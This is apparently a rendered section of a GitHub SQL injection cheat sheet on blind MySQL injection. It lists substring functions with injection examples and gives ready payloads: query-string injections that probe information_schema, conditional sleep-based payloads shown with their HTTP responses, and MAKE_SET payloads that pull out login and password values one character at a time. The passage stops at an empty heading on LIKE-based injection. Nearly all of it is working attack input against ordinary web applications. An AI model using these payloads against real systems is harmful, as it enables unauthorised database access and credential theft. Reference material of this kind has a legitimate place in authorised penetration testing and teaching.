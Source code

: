 
## MYSQL Blind

### MYSQL Blind With Substring Equivalent

| Function | Example | Description |
| --- | --- | --- |
| `SUBSTR` | `SUBSTR(version(),1,1)=5` | Extracts a substring from a string (starting at any position) |
| `SUBSTRING` | `SUBSTRING(version(),1,1)=5` | Extracts a substring from a string (starting at any position) |
| `RIGHT` | `RIGHT(left(version(),1),1)=5` | Extracts a number of characters from a string (starting from right) |
| `MID` | `MID(version(),1,1)=4` | Extracts a substring from a string (starting at any position) |
| `LEFT` | `LEFT(version(),1)=4` | Extracts a number of characters from a string (starting from left) |

Examples of Blind SQL injection using `SUBSTRING` or another equivalent function:

```sql
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
?id=1 AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
?id=1 AND ASCII(LOWER(SUBSTR(version(),1,1)))=51
```


### MYSQL Blind Using a Conditional Statement

* TRUE: `if @@version starts with a 5`:

    ```sql
    2100935' OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
    Response:
    HTTP/1.1 500 Internal Server Error
    ```

* FALSE: `if @@version starts with a 4`:

    ```sql
    2100935' OR IF(MID(@@version,1,1)='4',sleep(1),1)='2
    Response:
    HTTP/1.1 200 OK
    ```


### MYSQL Blind With MAKE_SET

```sql
AND MAKE_SET(VALUE_TO_EXTRACT<(SELECT(length(version()))),1)
AND MAKE_SET(VALUE_TO_EXTRACT<ascii(substring(version(),POS,1)),1)
AND MAKE_SET(VALUE_TO_EXTRACT<(SELECT(length(concat(login,password)))),1)
AND MAKE_SET(VALUE_TO_EXTRACT<ascii(substring(concat(login,password),POS,1)),1)
```


### MYSQL Blind With LIKE
